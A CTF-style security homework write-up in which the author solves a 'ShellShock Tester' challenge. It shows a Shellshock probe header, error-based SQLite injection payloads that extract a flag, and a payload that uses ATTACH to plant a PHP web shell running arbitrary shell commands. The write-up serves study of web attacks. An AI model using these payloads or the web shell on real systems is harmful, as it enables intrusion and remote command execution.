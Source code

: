====================
 ShellShock Writeup
====================

:date: 2014-12-16 15:35
:modified: 2014-12-21 01:20
:tags: secprog, sqlite, sqli, shellshock, writeup
:category: memo
:slug: shellshock-writeup
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: Security Programming Homework 4-1

Problem Description
===================

The `ShellShock Tester`_ is the website that have some vulnerabilites.
According to the text on the website, the vulnerabilities might not be
ShellShock :(

At the bottom of the website it says "The response will be collected into
database". Maybe SQL injection will work! After trying various types of SQL
injection in that text input field I realized that I'm in the wrong way...

Look Deeper
===========

The ShellShock Tester must send something to the target website to test if it
has bash vulnerability. Using `nc` to see what are sent from the ShellShock
Tester.

.. code-block:: bash

    $ nc -l -p 5566

And it turns out to be the following result:

.. code-block:: text

    GET / HTTP/1.1
    User-Agent: () { :;}; echo 'ShellShockTester_atdog';
    Host: 140.113.235.153:5566
    Accept: */*


Ah-ha! The string ``{ :;}; echo 'ShellShockTester_atdog';`` is a typical method to
test if the bash which is currently using is vulnerable to CVE-2014-6271. A
system which is vulnerable will echo the string "ShellShockTester_atdog".
Similarly, the target website which runs CGI program will return the string if
it is vulnerable. So why don't we build a fake HTTP server to fool the
ShellShock Tester?

Building a simple HTTP server using python module `Flask`_. It returns the
string when the ShellShock Tester queried for the index page. It seems that the 
ShellShock Tester stores the response returned from the target website into its 
database using ``insert``. At the time the type of the database is still unknown.

So I append a single quote right after the string, and the result showed on the
ShellShock Tester is:

.. code-block:: text

    DATABASE Msg: unrecognized token: "'ShellShockTester_atdog'')"

    Response: ShellShockTester_atdog'

Google for the error message, it says that it seems to be SQLite 3. On the other
hand, all error messages will showed means that we can use error-based SQL
injection.

Error-based SQL Injection
=========================

Most of the error-based SQL injection methods are based on MySQL. But this time,
it is SQLite... Fortunately, I found a forum post which talks about SQLite
error-based injection, how lucky!

First, create a virtual table:

.. code-block:: sqlite3

    CREATE VIRTUAL TABLE v1 USING fts3(x);

To know which table and column contain the flag:

.. code-block:: sqlite3

    SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT sql FROM sqlite_master);

And finally, the flag showed up:

.. code-block:: sqlite3

    SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT flag FROM oyoyoyoy_____1111flag);

The queries listed above should be embedded into the sophisticatedly crafted
string. Using Python's format string will look like this:

.. code-block:: python

    trick = 'ShellShockTester_atdog\'); {} --'
    inj = 'create virtual table v1 using fts3(x);'
    resp = trick.format(inj)

Inject a Backdoor
=================

Another method to pwn the ShellShock Tester is to place a backdoor in the
directory of the website.

.. code-block:: python

    trick = 'ShellShockTester_atdog\'); {} --'
    inj = 'ATTACH \'./lol.php\' AS lol; CREATE TABLE lol.pwn (dataz TEXT); INSERT INTO lol.pwn (dataz) VALUES (\'<pre><?php system($_GET["cmd"]); ?></pre>\');'
    resp = trick.format(inj)

This will build a backdoor called ``lol.php``. So anyone can visit that page along
with a "GET" argument ``cmd``. The value of ``cmd`` could be any shell command. The
reason is that ``ATTACH`` command will attach a SQLite database. If the database
does not exist, it create the database which is a PHP file. The file's content
contains a short piece of PHP code showed above.

Simply visit the page "http://tor.atdog.tw:8888/lol.php?cmd=ls", it will list
every file in the current directory. And there is the SQLite database! Download
it and grab the flag!

Flag
====

The flag is:

.. code-block:: text

    SecProg{SQL1teInject1on_yoooo}

References
==========

- `Select Queries`__
- `SQLite 3 error-based injection`__
- `SQLite3 Injection Cheat Sheet`__
- `SQLite Injection | Hits from the bits`__

.. _ShellShock Tester: http://tor.atdog.tw:8888/index.php
.. _Flask: http://flask.pocoo.org
.. __: http://sqlite.awardspace.info/syntax/sqlitepg03.htm
.. __: https://rdot.org/forum/showthread.php?p=26419
.. __: http://atta.cked.me/home/sqlite3injectioncheatsheet
.. __: http://gwae.trollab.org/sqlite-injection.html

